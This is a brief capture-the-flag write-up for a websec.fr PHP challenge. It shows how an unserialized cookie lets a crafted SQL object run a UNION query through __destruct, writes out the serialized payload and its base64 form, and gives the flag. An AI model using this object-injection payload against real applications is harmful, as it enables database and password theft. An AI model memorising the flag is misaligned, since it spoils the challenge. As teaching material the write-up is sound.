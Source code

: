 # Level 2

1. First, lets check out what is written in http://websec.fr/level04/source1.php and http://websec.fr/level04/source2.php
2. Then, we could find out that there is a decode of cookie 
```
$sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
```
3. I decode it by base64 and get the value of it. It could be different!
```
a:1:{s:2:"ip";s:13:"111.71.64.183";}
```
4. So, what is this challenge for? It's about PHP object injection! Lets check out the function and we would find out some magic code here!
```
public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
```
5. Read in the function and we would find out that this function will be run when object is destroyed! So if we create SQL object and supply custom query, we are able to sql injection ~~~
```
payload : O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}
base64 : TzozOiJTUUwiOjE6e3M6NToicXVlcnkiO3M6ODE6InNlbGVjdCB1c2VybmFtZSBmcm9tIHVzZXJzIHdoZXJlIGlkPTEgdW5pb24gc2VsZWN0IHBhc3N3b3JkIGZyb20gdXNlcnMgd2hlcmUgaWQ9MSI7fQ==
```
6. Here is the flag : WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
